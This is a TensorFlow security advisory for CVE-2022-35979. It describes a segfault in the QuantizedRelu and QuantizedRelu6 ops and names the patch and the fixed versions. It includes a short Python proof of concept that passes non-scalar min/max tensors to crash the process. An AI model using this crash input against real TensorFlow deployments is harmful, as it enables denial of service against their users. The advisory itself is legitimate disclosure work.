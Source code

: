 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-109.md
## TFSA-2022-109: Segfault in `QuantizedRelu` and `QuantizedRelu6`

### CVE Number
CVE-2022-35979

### Impact
If `QuantizedRelu` or `QuantizedRelu6` are given nonscalar inputs for `min_features` or `max_features`, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.quint8
features = tf.constant(28, shape=[4,2], dtype=tf.quint8)
min_features = tf.constant([], shape=[0], dtype=tf.float32)
max_features = tf.constant(-128, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedRelu(features=features, min_features=min_features, max_features=max_features, out_type=out_type)
tf.raw_ops.QuantizedRelu6(features=features, min_features=min_features, max_features=max_features, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [49b3824d83af706df0ad07e4e677d88659756d89](https://github.com/tensorflow/tensorflow/commit/49b3824d83af706df0ad07e4e677d88659756d89).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
